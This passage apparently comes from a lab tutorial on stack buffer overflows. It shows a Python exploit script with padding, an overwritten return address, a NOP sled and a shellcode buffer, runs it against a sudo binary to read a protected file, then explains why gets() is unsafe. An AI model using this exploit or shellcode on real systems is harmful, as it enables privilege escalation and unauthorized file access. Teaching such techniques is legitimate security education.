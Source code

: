 our new exploit script looks like:

exploit.py

```
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
```
#eip = "BBBB"
#jmp esp = 0xff77aabb
```
```
eip = "\xbb\xaa\x77\xff"
```
```
nop = '\x90' * 5
```
```
buf = b""
buf += b"\xba\xaa\x14\x57\xbb\xdb\xc7\xd9\x74\x24\xf4\x5e\x2b"
buf += b"\xc9\xb1\x0c\x83\xc6\x04\x31\x56\x0f\x03\x56\xa5\xf6"
buf += b"\xa2\xd1\xb2\xae\xd5\x74\xa2\x26\xcb\x1b\xa3\x50\x7b"
buf += b"\xf3\xc0\xf6\x7c\x63\x09\x65\x14\x1d\xdc\x8a\xb4\x09"
buf += b"\xd4\x4c\x39\xca\x8b\x2d\x4d\xea\x3e\xdd\xc8\x98\xb3"
buf += b"\x21\x44\x0e\xba\xc3\xa7\x30"
```
```
print(buffer + eip + nop + buf)
```
If we take this exploit and run it through gdb, we will get some kind of error other than a seg fault
as we do not have sudo permissions on gdb.

Let’s test this out on the live sudo binary, though.

```
user1@linux$ cat users
Permission denied.
```
```
user1@linux$ sudo ./func <<< $(python /tmp/exploit.py)
You've read this protected file.
```
Success!


If this failed, check the previous steps and regenerate your shell code.

**Determining vulnerable fuctions**

Programs take input in many different ways. The functions and methods used in the program
dictate how the program reads input. Reading the code, determining the vulnerable function(s), and
sending the exploit to the vulnerable program in the way it anticipates the input is essential.

Functions that are susceptible to buffer overflows typically have no boundary checking. For
example the function gets() reads from standard input and continues to read until the end of the
line or end of file. There is no argument in the command that specifies a character limit so the
person at the keyboard is in complete control of overflowing the buffer. This function should never
be used in a production program.

